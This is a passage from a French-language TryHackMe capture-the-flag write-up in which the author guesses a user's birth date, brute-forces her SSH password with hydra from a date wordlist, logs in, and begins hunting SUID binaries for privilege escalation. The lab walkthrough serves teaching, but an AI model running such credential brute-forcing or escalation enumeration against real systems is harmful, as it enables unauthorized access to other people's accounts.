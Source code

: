 2020-26 = 1994 donc l'année de naissance est 1994.
Quand on regarde le calendrier 2020 le 27 tombe un lundi et le prochain lundi est le 3 août.   
Donc in sait que sont anniversaire est ente 3 août 1994 et le 7 août 1994.   

Générons un fichier qui contient le date au format américain mois jour année.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ cat date.txt 
08/03/1994
08/04/1994
08/05/1994
08/06/1994
08/07/1994
```

On génère les dates.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ hydra -l jenny -P date.txt ssh://wwbuddy.thm
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-09-07 11:23:00
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 5 tasks per 1 server, overall 5 tasks, 5 login tries (l:1/p:5), ~1 try per task
[DATA] attacking ssh://wwbuddy.thm:22/
[22][ssh] host: wwbuddy.thm   login: jenny   password: 08/03/1994
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 202
```

On brute force les dates avec hydra et on trouve le mot de passe qui est 08/03/1994.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ssh jenny@wwbuddy.thm
The authenticity of host 'wwbuddy.thm (10.10.97.202)' can't be established.
ECDSA key fingerprint is SHA256:FG9xKodlZK8L0IQihDsNh5y6ITtj+eQS0Dct3t1KDy4.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'wwbuddy.thm,10.10.97.202' (ECDSA) to the list of known hosts.
jenny@wwbuddy.thm's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Sep  7 09:25:16 UTC 2021

  System load:  0.0               Processes:           104
  Usage of /:   44.1% of 9.78GB   Users logged in:     0
  Memory usage: 73%               IP address for eth0: 10.10.97.202
  Swap usage:   0%


53 packages can be updated.
0 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

$ find / -perm -4000 2>/dev/null
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su
```